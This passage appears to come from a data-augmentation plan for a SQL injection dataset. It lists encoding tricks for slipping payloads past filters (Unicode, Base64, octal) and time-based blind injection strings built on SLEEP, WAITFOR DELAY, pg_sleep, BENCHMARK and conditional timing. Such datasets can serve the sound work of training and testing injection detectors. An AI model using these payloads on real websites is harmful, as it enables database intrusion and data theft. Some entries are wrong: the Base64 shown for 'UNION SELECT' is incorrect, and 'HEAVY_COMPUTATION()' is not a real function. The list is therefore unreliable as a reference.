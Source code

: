 #### Unicode escapes

Unicode escape sequences

**Examples:**
- `' => \u0027`
- `OR => \u004f\u0052`

#### Base64 encoding

Base64 encode payloads

**Examples:**
- `' OR 1=1 => JyBPUiAxPTE=`
- `UNION SELECT => VU5JT04gU0VMRUNUA==`

#### Octal encoding

Octal representation

**Examples:**
- `A => \101`
- `' => \047`


### 2. Time Based Blind

**Description:** Time-based blind SQL injection payloads

**Augmentation Goal:** Generate 3 time-based variants per sample

**Estimated New Samples:** 264,021

**Transformations:**

#### SLEEP functions

Database sleep functions

**Examples:**
- `' AND SLEEP(5)--`
- `'; WAITFOR DELAY '00:00:05'--`
- `' AND pg_sleep(5)--`

#### BENCHMARK functions

CPU-intensive operations for timing

**Examples:**
- `' AND BENCHMARK(5000000, MD5('A'))--`
- `' AND HEAVY_COMPUTATION()--`

#### Conditional timing

IF/CASE with timing

**Examples:**
- `' AND IF(1=1, SLEEP(5), 0)--`
- `' AND CASE WHEN 1=1 THEN SLEEP(5) END--`
